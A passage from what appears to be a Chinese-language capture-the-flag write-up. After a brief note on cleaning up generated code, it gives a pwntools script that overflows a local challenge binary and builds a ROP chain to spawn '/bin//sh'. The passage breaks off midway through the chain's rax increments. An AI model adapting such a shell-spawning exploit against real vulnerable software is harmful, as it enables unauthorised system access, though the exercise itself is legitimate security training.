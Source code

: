 但是要做一些处理, python首先就是缩进敏感, 复制这些代码, 需要将前面的空格都去掉, 并且pack需要写为完整的`struct.pack` , 同时导入struct包, 整合后的脚本为

##### Exploit

```python
from pwn import*
from struct import pack
o = process("./ropchain")

p = 'a'*0x18
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x00000000004005af) # pop rax ; ret
p += '/bin//sh'
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x00000000004006a6) # pop rdi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000403992) # pop rdx ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
```